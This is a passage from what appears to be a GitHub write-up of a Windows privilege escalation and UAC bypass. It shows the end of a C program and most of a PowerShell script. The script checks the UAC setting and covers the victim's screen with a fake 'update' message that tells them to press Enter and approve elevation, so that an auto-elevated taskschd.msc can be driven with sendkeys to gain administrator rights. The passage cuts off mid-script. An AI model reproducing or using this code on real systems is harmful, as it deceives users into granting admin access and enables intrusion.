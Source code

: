 ```c
    return 0;
}
```

compile it, and then run it:

![image](https://github.com/user-attachments/assets/469b1d72-0a8c-4959-a313-f4960dea967b)

Now, check your newly created powershell process' token privs!

![image](https://github.com/user-attachments/assets/2ce24dd4-406b-4bf4-81a1-3929c4e998ae)

Let's get creative 😸  We can now sendkeys to an elevated program.  So, let's start an autoelevated program we'd like to use to gain administrator privs, say...`taskschd.msc` !

I'm going to use a powershell script to pull this off.  This is actually pretty hilarious.  I made it so it covers the entire screen green with a message telling the user to hit enter and press yes if prompted (In case UAC always on is set)
covering the whole screen with a form only works best if the victim is on a laptop of course.  I'll see if I can capture screenshots of the madness below.  Here's the code:

```ps1
$UACRegKeyPath = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"

$UACValue = Get-ItemProperty -Path $UACRegKeyPath -Name ConsentPromptBehaviorAdmin | Select-Object -ExpandProperty ConsentPromptBehaviorAdmin

switch ($UACValue) {
    0 { "0 - UAC is disabled (Never notify)." }
    1 { "1 - UAC enabled - Prompt for credentials on the secure desktop (Always notify)." }
    2 { "2 - UAC enabled - Prompt for consent on the secure desktop." }
    3 { "3 - UAC enabled - Prompt for consent for non-Windows binaries." }
    4 { "4 - UAC enabled - Automatically deny elevation requests." }
	5 { "5 - UAC enabled - Prompt for consent for non-Windows binaries." }
    Default { "Unknown UAC setting." }
}


Add-Type -AssemblyName System.Windows.Forms
Add-Type -AssemblyName System.Drawing

$form = New-Object System.Windows.Forms.Form
$form.FormBorderStyle = 'None'
$form.WindowState = 'Maximized'
$form.BackColor = [System.Drawing.Color]::Green
$form.TopMost = $true

$form.KeyPreview = $true

$form.Add_KeyDown({
    param($sender, $eventArgs)
    
    if ($eventArgs.KeyCode -eq [System.Windows.Forms.Keys]::Enter) {
        $sender.Close()  
    }
})

$form.Add_Paint({
    param($sender, $event)
    
    $graphics = $event.Graphics
    
    $text = "[ Please hit (Enter) then select (YES) if prompted to continue the update ]"
    
    $font = New-Object System.Drawing.Font("Arial", 36, [System.Drawing.FontStyle]::Bold)
```